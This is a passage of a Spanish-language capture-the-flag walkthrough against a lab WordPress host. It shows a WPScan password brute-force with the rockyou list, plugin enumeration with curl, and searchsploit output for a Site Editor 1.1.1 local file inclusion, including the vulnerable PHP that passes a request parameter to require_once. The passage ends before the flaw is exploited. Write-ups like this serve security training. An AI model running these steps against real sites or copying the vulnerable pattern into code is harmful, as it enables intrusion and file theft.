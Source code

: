 Tenemos un usuario:
```bash
[i] User(s) Identified:

[+] wordpress
```

Lanzamos un ataque de fuerza bruta para este usuario:
```bash
wpscan --url http://asucar.dl --passwords /usr/share/wordlists/rockyou.txt --usernames wordpress
```

### Enumeracion Plugin:
```bash
curl -s -X -GET http://asucar.dl/ | grep "plugin"
```

Nos reporta lo siguiente:
```bash
<link rel='stylesheet' id='general-css' href='http://asucar.dl/wp-content/plugins/site-editor/framework/assets/css/general.min.css?ver=1.1' media='all' />
<link rel='stylesheet' id='css3-animate-css' href='http://asucar.dl/wp-content/plugins/site-editor/framework/assets/css/animate/animate.min.css?ver=6.5.3' media='all' />
<script src="http://asucar.dl/wp-content/plugins/site-editor/framework/assets/js/sed_app_site.min.js?ver=1.0.0" id="sed-app-site-js"></script>
<script src="http://asucar.dl/wp-content/plugins/site-editor/assets/js/livequery/jquery.livequery.min.js?ver=1.0.0" id="jquery-livequery-js"></script>
<script src="http://asucar.dl/wp-content/plugins/site-editor/assets/js/livequery/sed.livequery.min.js?ver=1.0.0" id="sed-livequery-js"></script>
<script src="http://asucar.dl/wp-content/plugins/site-editor/framework/assets/js/animate/wow.min.js?ver=1.0.2" id="wow-animate-js"></script>
<script src="http://asucar.dl/wp-content/plugins/site-editor/framework/assets/js/parallax/jquery.parallax.min.js?ver=1.1.3" id="jquery-parallax-js"></script>
<script src="http://asucar.dl/wp-content/plugins/site-editor/framework/assets/js/render.min.js?ver=1.0.0" id="render-scripts-js"></script>
```

Ahora buscaremos un exploit en caso de que exista uno para la version del plugin **Site-Editor**:
```bash
searchsploit wordpress site editor
```

Tenemos este posible para nuestra version:
```bash
---------------------------------------------------------------------------------------------------
 Exploit Title  |  Path
---------------------------------------------------------------------------------------------------
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion  | php/webapps/44340.txt
```

Revisamos su contenido:
```bash
searchsploit -x php/webapps/44340.txt 
```

Contenido:
```bash
** CVE description **
A Local File Inclusion vulnerability in the Site Editor plugin through 1.1.1 for WordPress allows remote attackers to retrieve arbitrary files via the ajax_path parameter to editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php.

Vulnerable code:
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){
    require_once $_REQUEST['ajax_path'];
}

```